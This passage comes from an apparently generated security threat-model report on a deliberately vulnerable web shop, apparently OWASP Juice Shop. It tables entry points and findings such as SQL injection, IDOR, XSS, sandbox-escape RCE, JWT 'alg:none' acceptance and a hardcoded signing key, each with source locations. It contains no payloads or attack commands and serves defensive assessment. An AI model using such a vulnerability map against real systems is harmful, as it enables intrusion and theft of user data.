(<code>about.component.ts:119</code>)<br/>🔴 <a href="#f-045">F-045</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-058">F-058</a> — TOTP secret stored in plaintext (<code>models/user.ts:113</code>)<br/>🟠 <a href="#f-067">F-067</a> — Open Redirect Allowlist Bypass (<code>lib/insecurity.ts:138</code>)<br/>🔴 <a href="#f-068">F-068</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-069">F-069</a> — Authorization Check Disabled on Product Update Route (<code>server.ts:369</code>)<br/>🟠 <a href="#f-072">F-072</a> — Insecure Direct Object Reference (<code>models/relations.ts:22</code>)<br/>🔴 <a href="#f-078">F-078</a> — DOM-based XSS (<code>index.ts:126</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Product and Business Data</td><td style="white-space:nowrap">A-006</td><td>Internal</td><td>Product catalog, pricing, order history, and customer feedback stored in SQLite. Accessible via NoSQL injection (MarsDB reviews) and SQL injection (product search, order routes).</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-002">F-002</a> — SQL Injection in login query (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-006">F-006</a> — SQL Injection in Product Search Route (<code>routes/search.ts:23</code>)<br/>🔴 <a href="#f-008">F-008</a> — Insecure Direct Object Reference (<code>routes/address.ts:11</code>)<br/>🔴 <a href="#f-009">F-009</a> — Insecure Direct Object Reference (<code>routes/address.ts:18</code>)<br/>🔴 <a href="#f-010">F-010</a> — Insecure Direct Object Reference (<code>routes/address.ts:29</code>)<br/>🔴 <a href="#f-011">F-011</a> — Insecure Direct Object Reference (<code>routes/dataExport.ts:26</code>)<br/>🔴 <a href="#f-012">F-012</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:25</code>)<br/>🔴 <a href="#f-013">F-013</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:30</code>)<br/>🔴 <a href="#f-014">F-014</a> — Insecure Direct Object Reference (<code>routes/deluxe.ts:35</code>)<br/>🔴 <a href="#f-015">F-015</a> — Insecure Direct Object Reference (<code>routes/memory.ts:15</code>)<br/>🔴 <a href="#f-016">F-016</a> — Insecure Direct Object Reference (<code>routes/order.ts:142</code>)<br/>🔴 <a href="#f-017">F-017</a> — Insecure Direct Object Reference (<code>routes/order.ts:144</code>)<br/>🔴 <a href="#f-018">F-018</a> — Insecure Direct Object Reference (<code>routes/order.ts:151</code>)<br/>🔴 <a href="#f-019">F-019</a> — Insecure Direct Object Reference (<code>routes/payment.ts:21</code>)<br/>🔴 <a href="#f-020">F-020</a> — Insecure Direct Object Reference (<code>routes/payment.ts:41</code>)<br/>🔴 <a href="#f-021">F-021</a> — Insecure Direct Object Reference (<code>routes/payment.ts:70</code>)<br/>🔴 <a href="#f-022">F-022</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:12</code>)<br/>🔴 <a href="#f-023">F-023</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:24</code>)<br/>🔴 <a href="#f-024">F-024</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:27</code>)<br/>🔴 <a href="#f-025">F-025</a> — Mass-assignment of role field enables privilege escalation (<code>models/user.ts:80</code>)<br/>🔴 <a href="#f-028">F-028</a> — VM Sandbox Escape (<code>routes/b2bOrder.ts:23</code>)<br/>🔴 <a href="#f-029">F-029</a> — Mass Assignment to role Field in User Registration (<code>server.ts:419</code>)<br/>🔴 <a href="#f-030">F-030</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-038">F-038</a> — Insecure Direct Object Reference (<code>routes/basketItems.ts:68</code>)<br/>🟠 <a href="#f-039">F-039</a> — Insecure Direct Object Reference (<code>routes/delivery.ts:34</code>)<br/>🟠 <a href="#f-040">F-040</a> — Insecure Direct Object Reference (<code>routes/orderHistory.ts:36</code>)<br/>🟠 <a href="#f-062">F-062</a> — Unauthenticated CPU Exhaustion (<code>routes/b2bOrder.ts:23</code>)<br/>🟠 <a href="#f-067">F-067</a> — Open Redirect Allowlist Bypass (<code>lib/insecurity.ts:138</code>)<br/>🔴 <a href="#f-068">F-068</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-069">F-069</a> — Authorization Check Disabled on Product Update Route (<code>server.ts:369</code>)<br/>🟠 <a href="#f-072">F-072</a> — Insecure Direct Object Reference (<code>models/relations.ts:22</code>)<br/>🟡 <a href="#f-079">F-079</a> — Missing Audit Logging for B2B Order Submissions (<code>routes/b2bOrder.ts:24</code>)<br/>🟡 <a href="#f-082">F-082</a> — Raw VM Error Propagation to API Response (<code>routes/b2bOrder.ts:33</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">Application Server Process</td><td style="white-space:nowrap">A-007</td><td>Internal</td><td>Node\.js 22 process running as UID 65532 in a distroless container. RCE vulnerabilities (B2B eval, user profile eval, captcha eval) give an attacker full process control including access to all in-process data stores and secrets.</td><td style="overflow-wrap:anywhere">-</td></tr>
<tr><td style="overflow-wrap:anywhere">Container Filesystem (uploads/, ftp/, encryptionkeys/)</td><td style="white-space:nowrap">A-008</td><td>Internal</td><td>Local filesystem directories served publicly: ftp/ (intentional file disclosure), encryptionkeys/ (JWT public key exposure), uploads/ (target for ZIP path-traversal write). World-readable by design.</td><td style="overflow-wrap:anywhere">🔴 <a href="#f-003">F-003</a> — Hardcoded RSA private key enables arbitrary JWT forgery (<code>lib/insecurity.ts:23</code>)<br/>🟠 <a href="#f-051">F-051</a> — Sensitive Information Exposure (<code>server.ts:208</code>)<br/>🟠 <a href="#f-052">F-052</a> — Unauthenticated Access Log and FTP Directory Exposed to Internet (<code>server.ts:269</code>)<br/>🟠 <a href="#f-060">F-060</a> — CTF Flag Broadcast to All Connected Sockets (<code>lib/challengeUtils.ts:71</code>)<br/>🔴 <a href="#f-068">F-068</a> — Sensitive Routes Registered Without Authentication Middleware (<code>server.ts:310</code>)<br/>🔴 <a href="#f-069">F-069</a> — Authorization Check Disabled on Product Update Route (<code>server.ts:369</code>)<br/>🟠 <a href="#f-073">F-073</a> — ZIP Path Traversal (<code>routes/fileUpload.ts:44</code>)<br/>🟡 <a href="#f-089">F-089</a> — Improper Access Control (<code>pr-compliance.yml:4</code>)</td></tr>
<tr><td style="overflow-wrap:anywhere">GitHub Actions CI/CD Pipeline</td><td style="white-space:nowrap">A-009</td><td>Internal</td><td>13 GitHub Actions workflows with GITHUB_TOKEN default write permissions on 10 workflows. CodeQL and test pipelines run on public contributions. Release pipeline publishes to Docker Hub using a long-lived DOCKER_TOKEN secret.</td><td style="overflow-wrap:anywhere">-</td></tr>
</tbody>
</table>

---

## 5. Attack Surface

Network-reachable entry points classified by authentication requirement. Each row links to the threat(s) referenced in its **Notes** column. The **Risk** column reflects the highest-severity linked finding. Entry points with no linked finding are still listed when they sit on a sensitive surface (authentication, registration, management) or look like a missing-auth/authz suspect - marked **⚑ Review** in Notes.

### 5.1 Unauthenticated Entry Points (57)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-007">F-007</a> — Remote Code Execution (<code>routes/userProfile.ts:62</code>)<br/>🔴 <a href="#f-030">F-030</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-070">F-070</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:664</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/file</code></td><td>🔴 Critical</td><td>🟠 <a href="#f-070">F-070</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>🔴 <a href="#f-025">F-025</a> — Mass-assignment of role field enables privilege escalation (<code>models/user.ts:80</code>)<br/>handler: <code>server.ts:310</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/data-export</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-011">F-011</a> — Insecure Direct Object Reference (<code>routes/dataExport.ts:26</code>)<br/>🟡 <a href="#f-088">F-088</a> — Client-Side Data Export Rate Limit Bypass (<code>data-export.component.ts:48</code>)<br/>handler: <code>server.ts:618</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/login</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-002">F-002</a> — SQL Injection in login query (<code>routes/login.ts:34</code>)<br/>🔴 <a href="#f-005">F-005</a> — OAuth-Derived Predictable Password (<code>oauth.component.ts:30</code>)<br/>🟠 <a href="#f-061">F-061</a> — Missing Anti-Automation / Rate Limiting (<code>server.ts:594</code>)<br/>handler: <code>server.ts:594</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/wallet/balance</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-022">F-022</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:12</code>)<br/>🔴 <a href="#f-023">F-023</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:24</code>)<br/>🔴 <a href="#f-024">F-024</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:27</code>)<br/>handler: <code>server.ts:625</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/profile</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-007">F-007</a> — Remote Code Execution (<code>routes/userProfile.ts:62</code>)<br/>🔴 <a href="#f-030">F-030</a> — Server-Side Template Injection (<code>routes/userProfile.ts:62</code>)<br/>🟠 <a href="#f-070">F-070</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:663</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/search</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-006">F-006</a> — SQL Injection in Product Search Route (<code>routes/search.ts:23</code>)<br/>handler: <code>server.ts:600</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/wallet/balance</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-022">F-022</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:12</code>)<br/>🔴 <a href="#f-023">F-023</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:24</code>)<br/>🔴 <a href="#f-024">F-024</a> — Insecure Direct Object Reference (<code>routes/wallet.ts:27</code>)<br/>handler: <code>server.ts:624</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/file-upload</code></td><td>🟠 High</td><td>🟠 <a href="#f-049">F-049</a> — No Audit Logging for File Upload Events (<code>routes/fileUpload.ts:27</code>)<br/>🟠 <a href="#f-059">F-059</a> — XXE File Read (<code>routes/fileUpload.ts:83</code>)<br/>🟠 <a href="#f-064">F-064</a> — Unauthenticated Parser Amplification DoS (<code>routes/fileUpload.ts:83</code>)<br/>handler: <code>server.ts:309</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/metrics</code></td><td>🟠 High</td><td>🟠 <a href="#f-051">F-051</a> — Sensitive Information Exposure (<code>server.ts:208</code>)<br/>Prometheus metrics endpoint — operational data exposed without authentication.</td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/profile/image/url</code></td><td>🟠 High</td><td>🟠 <a href="#f-070">F-070</a> — Server-Side Request Forgery (<code>routes/profileImageUrlUpload.ts:24</code>)<br/>handler: <code>server.ts:311</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​configuration</code></td><td>🟠 High</td><td>🟠 <a href="#f-076">F-076</a> — Client-Side Enforcement of Server-Side Security (<code>app.guard.ts:52</code>)<br/>Management surface; handler: <code>server.ts:605</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​order-​history/​:​id/​delivery-​status</code></td><td>🟠 High</td><td>🟠 <a href="#f-040">F-040</a> — Insecure Direct Object Reference (<code>routes/orderHistory.ts:36</code>)<br/>handler: <code>server.ts:623</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/user/reset-password</code></td><td>🟠 High</td><td>🟠 <a href="#f-035">F-035</a> — Weak Password Recovery Mechanism (<code>routes/resetPassword.ts:41</code>)<br/>🔴 <a href="#f-032">F-032</a> — Weak Password Hashing (<code>models/securityAnswer.ts:46</code>)<br/>🟠 <a href="#f-047">F-047</a> — Insufficient Security Logging (<code>routes/login.ts:18</code>)<br/>handler: <code>server.ts:596</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/encryptionkeys</code></td><td>🟠 High</td><td>🟠 <a href="#f-052">F-052</a> — Unauthenticated Access Log and FTP Directory Exposed to Internet (<code>server.ts:269</code>)<br/>🟠 <a href="#f-066">F-066</a> — JWT role claim elevation (<code>lib/insecurity.ts:54</code>)<br/>JWT public key directory listing exposed publicly.</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/ftp</code></td><td>🟠 High</td><td>🟠 <a href="#f-052">F-052</a> — Unauthenticated Access Log and FTP Directory Exposed to Internet (<code>server.ts:269</code>)<br/>🟠 <a href="#f-073">F-073</a> — ZIP Path Traversal (<code>routes/fileUpload.ts:44</code>)<br/>serve-index directory listing — public file access by design.</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/redirect</code></td><td>🟠 High</td><td>🟠 <a href="#f-067">F-067</a> — Open Redirect Allowlist Bypass (<code>lib/insecurity.ts:138</code>)<br/>handler: <code>server.ts:656</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/order-history</code></td><td>🟠 High</td><td>🟠 <a href="#f-040">F-040</a> — Insecure Direct Object Reference (<code>routes/orderHistory.ts:36</code>)<br/>handler: <code>server.ts:621</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/order-history/orders</code></td><td>🟠 High</td><td>🟠 <a href="#f-040">F-040</a> — Insecure Direct Object Reference (<code>routes/orderHistory.ts:36</code>)<br/>handler: <code>server.ts:622</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/saveLoginIp</code></td><td>🟠 High</td><td>🟠 <a href="#f-046">F-046</a> — Log Injection (<code>routes/saveLoginIp.ts:18</code>)<br/>handler: <code>server.ts:617</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/change-password</code></td><td>🟠 High</td><td>🔴 <a href="#f-032">F-032</a> — Weak Password Hashing (<code>models/securityAnswer.ts:46</code>)<br/>🟡 <a href="#f-081">F-081</a> — No audit log table for security-relevant mutations (<code>models/index.ts:30</code>)<br/>handler: <code>server.ts:595</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/user/security-question</code></td><td>🟠 High</td><td>🔴 <a href="#f-032">F-032</a> — Weak Password Hashing (<code>models/securityAnswer.ts:46</code>)<br/>🟠 <a href="#f-035">F-035</a> — Weak Password Recovery Mechanism (<code>routes/resetPassword.ts:41</code>)<br/>handler: <code>server.ts:597</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/support/logs</code></td><td>🟠 High</td><td>🟠 <a href="#f-048">F-048</a> — Insufficient Security Logging (<code>server.ts:338</code>)<br/>🟠 <a href="#f-052">F-052</a> — Unauthenticated Access Log and FTP Directory Exposed to Internet (<code>server.ts:269</code>)<br/>Server log file directory listing exposed publicly.</td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​this/​page/​is/​hidden/​behind/​an/​incredibly/​high/​paywall/​that/​could/​only/​be/​unlocked/​by/​sending/​1btc/​to/​us</code></td><td>🟠 High</td><td>🔴 <a href="#f-044">F-044</a> — Stored XSS (<code>about.component.ts:119</code>)<br/>🔴 <a href="#f-045">F-045</a> — Stored XSS (<code>last-login-ip.component.ts:39</code>)<br/>🟠 <a href="#f-060">F-060</a> — CTF Flag Broadcast to All Connected Sockets (<code>lib/challengeUtils.ts:71</code>)<br/>handler: <code>server.ts:649</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/</code></td><td>-</td><td>handler: <code>routes/dataErasure.ts:54</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks</code></td><td>-</td><td>handler: <code>server.ts:401</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/​rest/​admin/​application-​version</code></td><td>-</td><td>Management surface; handler: <code>server.ts:604</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​findIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:610</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code-​fixIt/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:611</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​continue-​code/​apply/​:​continueCode</code></td><td>-</td><td>handler: <code>server.ts:612</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/memories</code></td><td>-</td><td>handler: <code>server.ts:312</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/​rest/​web3/​walletExploitAddress</code></td><td>-</td><td>handler: <code>server.ts:642</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/web3/walletNFTVerify</code></td><td>-</td><td>handler: <code>server.ts:641</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/fixes</code></td><td>-</td><td>handler: <code>server.ts:670</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/snippets/verdict</code></td><td>-</td><td>handler: <code>server.ts:668</code><br/><em>⚑ Review: no auth guard detected</em></td></tr>
</tbody>
</table>

_22 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (57 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

### 5.2 Authenticated Entry Points (53)

<table style="table-layout:fixed;width:100%">
<colgroup><col width="9%" style="width:9%"><col width="30%" style="width:30%"><col width="14%" style="width:14%"><col width="47%" style="width:47%"></colgroup>
<thead><tr><th>Method</th><th>Route</th><th>Risk</th><th>Notes</th></tr></thead>
<tbody>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>handler: <code>server.ts:439</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>handler: <code>server.ts:440</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards/:id</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>handler: <code>server.ts:441</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Cards</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>handler: <code>server.ts:437</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Cards</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-026">F-026</a> — Payment card number stored as unencrypted INTEGER (<code>models/card.ts:39</code>)<br/>handler: <code>server.ts:438</code></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-029">F-029</a> — Mass Assignment to role Field in User Registration (<code>server.ts:419</code>)<br/>🟠 <a href="#f-076">F-076</a> — Client-Side Enforcement of Server-Side Security (<code>app.guard.ts:52</code>)<br/>handler: <code>server.ts:362</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Users</code></td><td>🔴 Critical</td><td>🔴 <a href="#f-029">F-029</a> — Mass Assignment to role Field in User Registration (<code>server.ts:419</code>)<br/>🟠 <a href="#f-076">F-076</a> — Client-Side Enforcement of Server-Side Security (<code>app.guard.ts:52</code>)<br/>handler: <code>server.ts:407</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems/:id</code></td><td>🟠 High</td><td>🟠 <a href="#f-038">F-038</a> — Insecure Direct Object Reference (<code>routes/basketItems.ts:68</code>)<br/>handler: <code>server.ts:425</code></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-069">F-069</a> — Authorization Check Disabled on Product Update Route (<code>server.ts:369</code>)<br/>handler: <code>server.ts:369</code></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Products/:id</code></td><td>🟠 High</td><td>🔴 <a href="#f-069">F-069</a> — Authorization Check Disabled on Product Update Route (<code>server.ts:369</code>)<br/>handler: <code>server.ts:370</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/verify</code></td><td>🟠 High</td><td>🟠 <a href="#f-063">F-063</a> — No Rate Limiting on Login Endpoint Enables Credential Stuffing (<code>server.ts:343</code>)<br/>handler: <code>server.ts:457</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/BasketItems</code></td><td>🟠 High</td><td>🟠 <a href="#f-038">F-038</a> — Insecure Direct Object Reference (<code>routes/basketItems.ts:68</code>)<br/>handler: <code>server.ts:426</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/Products</code></td><td>🟠 High</td><td>🔴 <a href="#f-069">F-069</a> — Authorization Check Disabled on Product Update Route (<code>server.ts:369</code>)<br/>handler: <code>server.ts:368</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/api/SecurityQuestions</code></td><td>🟠 High</td><td>🔴 <a href="#f-032">F-032</a> — Weak Password Hashing (<code>models/securityAnswer.ts:46</code>)<br/>handler: <code>server.ts:391</code></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/b2b/v2/orders</code></td><td>🟠 High</td><td>🟠 <a href="#f-062">F-062</a> — Unauthenticated CPU Exhaustion (<code>routes/b2bOrder.ts:23</code>)<br/>B2B API RCE — orderLinesData passed to <code>vm.runInContext()</code>. JWT required but express-jwt 0.1.3 accepts <code>alg:none</code>.</td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:449</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Addresss/:id</code></td><td>-</td><td>handler: <code>server.ts:450</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Feedbacks/:id</code></td><td>-</td><td>handler: <code>server.ts:432</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Quantitys/:id</code></td><td>-</td><td>handler: <code>server.ts:428</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:387</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:388</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>DELETE</td><td style="overflow-wrap:anywhere"><code>/api/Recycles/:id</code></td><td>-</td><td>handler: <code>server.ts:389</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/disable</code></td><td>-</td><td>handler: <code>server.ts:470</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/setup</code></td><td>-</td><td>handler: <code>server.ts:464</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/2fa/status</code></td><td>-</td><td>handler: <code>server.ts:462</code><br/><em>⚑ Review: auth/token endpoint</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id</code></td><td>-</td><td>handler: <code>server.ts:601</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>POST</td><td style="overflow-wrap:anywhere"><code>/rest/basket/:id/checkout</code></td><td>-</td><td>handler: <code>server.ts:602</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/​rest/​basket/​:​id/​coupon/​:​coupon</code></td><td>-</td><td>handler: <code>server.ts:603</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>GET</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:632</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
<tr><td>PUT</td><td style="overflow-wrap:anywhere"><code>/rest/products/:id/reviews</code></td><td>-</td><td>handler: <code>server.ts:633</code><br/><em>⚑ Review: no authz guard detected</em></td></tr>
</tbody>
</table>

_23 further entry point(s) in this category carry no linked finding and no elevated review signal, and are not listed individually (53 total). The complete route inventory is available in `.route-inventory.json` and, when exported, `pentest-tasks.yaml`._

---

## 7. Security Architecture

This chapter is organized by security-control category. The architecture section avoids artificial control IDs and finding-ID columns in overview tables. Findings are listed only where the affected control is described.

_[§7](#7-security-architecture) schema v2 (13-section control-category layout). Cataloged controls: 38 total - 3 adequate, 7 partial, 2 weak, 3 unsafe, 23 missing. Linked threats: 92._

**How to read the verdicts.** Every control category (and every sub-control below it) carries exactly one status. The two red verdicts do **not** mean the same thing - this is the distinction that decides what you have to do about a finding:

| Status | Meaning | What it asks of you |
|----------|------------------------------------|------------------------|
| 🟢 Adequate | Control is present and sound | Nothing - keep it |
| 🟡 Partial | Present, but with meaningful gaps | Close the gap |
| 🟠 Weak | Present, but has exploitable gaps | Strengthen it |
| 🔴 Unsafe | **Present and relied upon, but defeated /<br/>trivially bypassable** | **Fix the existing control** |
| 🔴 Missing | **Control was never built** | **Add the control** |
| - | Not applicable to this codebase | - |

So "🔴 Unsafe" on a control category does *not* mean the control is absent - it means the control exists but does not hold (e.g. an `MD5` password hash, a raw-SQL query path, a hardcoded signing key). "🔴 Missing" is reserved for controls that were never built (e.g. no Content-Security-Policy header).

### 7.1 Security Control Overview

<!-- §7.1 MECHANICAL-FROZEN — DO NOT EDIT (overview table is pregenerator-owned) -->

| Control category | Verdict | Main reason |
|----------------------|---------|------------------------------------|
| [7.2 Identity and Authentication Controls](#72-identity-and-authentication-controls) | 🔴 Unsafe | 10 routed findings; catalogued controls are<br/>present but defeated (e.g. TOTP / 2FA, OAuth<br/>/ Social Login). |
| [7.3 Session and Token Controls](#73-session-and-token-controls) | 🔴 Missing | 1 routed finding; required controls not in<br/>place (e.g. JWT signing key management, JWT<br/>algorithm enforcement). |
| [7.4 Authorization Controls](#74-authorization-controls) | 🔴 Missing | 30 routed findings; required controls not in<br/>place (e.g. Role-based access control,<br/>Client-side auth guards). |
| [7.5 Query Construction and Data Access Controls](#75-query-construction-and-data-access-controls) | 🔴 Missing | 2 routed findings; required controls not in<br/>place (e.g. SQL parameterization, NoSQL<br/>query sanitization). |
| [7.6 Input Boundary Validation Controls](#76-input-boundary-validation-controls) | 🔴 Missing | 6 routed findings; required controls not in<br/>place (e.g. Global input validation<br/>middleware). |
| [7.7 Output Encoding and Rendering Controls](#77-output-encoding-and-rendering-controls) | 🔴 Missing | 3 routed findings; required controls not in<br/>place (e.g. Angular DomSanitizer, Content<br/>Security Policy). |
| [7.8 Browser and Cross-Origin Controls](#78-browser-and-cross-origin-controls) | 🔴 Missing | Required controls not in place (e.g. CORS<br/>policy, Security headers (HSTS,<br/>Referrer-Policy)). |
| [7.9 Cryptography Secrets and Data Protection](#79-cryptography-secrets-and-data-protection) | 🔴 Missing | 5 routed findings; required controls not in<br/>place (e.g. Password hashing, Password<br/>hashing algorithm). |
| [7.10 File Parser and Outbound Request Controls](#710-file-parser-and-outbound-request-controls) | 🔴 Missing | 9 routed findings; required controls not in<br/>place (e.g. XML parser hardening, ZIP path<br/>traversal prevention). |
| [7.11 Operations Runtime and Supply Chain Controls](#711-operations-runtime-and-supply-chain-controls) | 🔴 Missing | 18 routed findings; required controls not in<br/>place (e.g. Container base image, Dependency<br/>lockfile). |
